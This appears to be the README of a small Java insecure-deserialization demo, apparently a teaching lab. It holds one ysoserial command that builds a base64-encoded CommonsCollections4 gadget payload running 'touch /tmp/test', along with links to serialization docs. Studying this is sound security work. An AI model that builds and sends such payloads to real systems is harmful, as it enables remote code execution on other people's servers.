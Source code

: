 # unserial java demo

## make payload
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'touch /tmp/test' | base64  -w 0

## doc

https://docs.oracle.com/en/java/javase/18/docs/specs/serialization/serial-arch.html
https://greyshell.github.io/blog/2019/11/22/insecure-deserialization-java/

## template

credit : https://www.free-css.com/free-css-templates/page277/cla